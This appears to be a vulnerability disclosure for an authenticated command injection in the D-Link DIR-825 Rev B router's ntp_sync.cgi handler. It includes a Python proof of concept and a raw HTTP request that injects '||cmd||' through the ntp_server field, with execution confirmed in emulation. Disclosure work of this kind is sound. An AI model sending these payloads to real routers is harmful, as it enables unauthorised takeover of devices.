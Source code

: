 ### command injection
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/

Vulnerability location: file:  /sbin/httpd  function:sub_414134 ntp_sync.cgi

The attacker calls this function by sending a post packet to the http://ip/ ntp_sync.cgi page.

The program will call the system function with the value of ntp_server in the post package.

```

```
Post package structure
postData = {
	' ntp_server ':cmd
	}
response = requests.post('http://192.168.0.1/ntp_sync.cgi ',data=postData)

```

```
Http message:
POST /ntp_sync.cgi  HTTP/1.1
Host: 192.168.113.130
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.113.130/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
ntp_server=||cmd||

```
![images](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/DIR-825/11.png)

![images](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/DIR-825/12.png)

This is the result I got from the qemu simulation environment. 	The input parameters are executed by the system function.

![images](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/DIR-825/13.pn
